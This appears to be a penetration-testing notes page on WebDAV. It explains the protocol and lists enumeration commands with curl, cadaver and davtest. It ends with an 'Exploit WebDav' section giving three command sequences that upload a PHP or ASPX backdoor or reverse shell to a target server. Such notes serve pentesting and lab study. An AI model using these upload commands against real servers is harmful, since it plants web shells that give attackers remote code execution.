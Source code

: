 # WebDAV

## WebDAV

WebDAV stands for "Web-based Distributed Authoring and Versioning". It is a set of extensions to the HTTP protocol which allows users to collaboratively edit and manage files on remote web servers.

**WebDAV** (**Web Distributed Authoring and Versioning**) is an extension of the [Hypertext Transfer Protocol](https://en.wikipedia.org/wiki/Hypertext\_Transfer\_Protocol) (HTTP) that allows [clients](https://en.wikipedia.org/wiki/Web\_client) to perform remote [Web](https://en.wikipedia.org/wiki/World\_Wide\_Web) content authoring operations. WebDAV is defined in [RFC](https://en.wikipedia.org/wiki/RFC\_\(identifier\)) [4918](https://datatracker.ietf.org/doc/html/rfc4918) by a [working group](https://en.wikipedia.org/wiki/Working\_group) of the [Internet Engineering Task Force](https://en.wikipedia.org/wiki/Internet\_Engineering\_Task\_Force) (IETF).

The WebDAV protocol provides a framework for users to create, change and move documents on a [server](https://en.wikipedia.org/wiki/Server\_\(computing\)). The most important features of the WebDAV protocol include the maintenance of properties about an author or modification date, [namespace](https://en.wikipedia.org/wiki/Namespace) management, collections, and overwrite protection. Maintenance of properties includes such things as the creation, removal, and querying of file information. Namespace management deals with the ability to copy and move web pages within a server's namespace. Collections deal with the creation, removal, and listing of various resources. Lastly, overwrite protection handles aspects related to the locking of files.

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WebDAV).

## Enumeration

### curl

We can authenticate with curl:

```
curl http://$ip -u username:password
```

### cadaver

&#x20;cadaver is a command-line [WebDAV](http://www.webdav.org) client for Unix. It supports file upload, download, on-screen display, namespace operations (move/copy), collection creation and deletion, and locking operations. This text was extracted from [here](http://www.webdav.org/cadaver/).

```
cadaver http://$ip
```

### davtest

{% embed url="https://github.com/cldrn/davtest" %}

DAVTest tests WebDAV-enabled servers by uploading test executable files, and then (optionally) uploading files that allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable.

DAVTest supports:

* Automatically send exploit files
* Automatic randomization of the directory to help hide files
* Send text files and try MOVE to the executable name
* Basic and Digest authorization
* Automatic clean-up of uploaded files
* Send an arbitrary file

```
davtest -url http://10.10.10.10
```

## Exploit WebDav

If one method fails, another should be tested. Upload a reverse shell file to webdav:

Method 1:

```
davtest -url http://$target/webdav
cadaver http://$target/webdav
> put test.php
```

Method 2:

```
cp /usr/share/webshells/php/simple-backdoor.php bytef.php
curl -T 'bytef.php' 'http://ip/webdav/'
curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u username:password
```

Method 3:

```
nmap -p 80 $ip_address –script http-put –script-args http-put.url=’/webdav/bytef.php’,http-put.file=’backdoor/bytef.php’
```
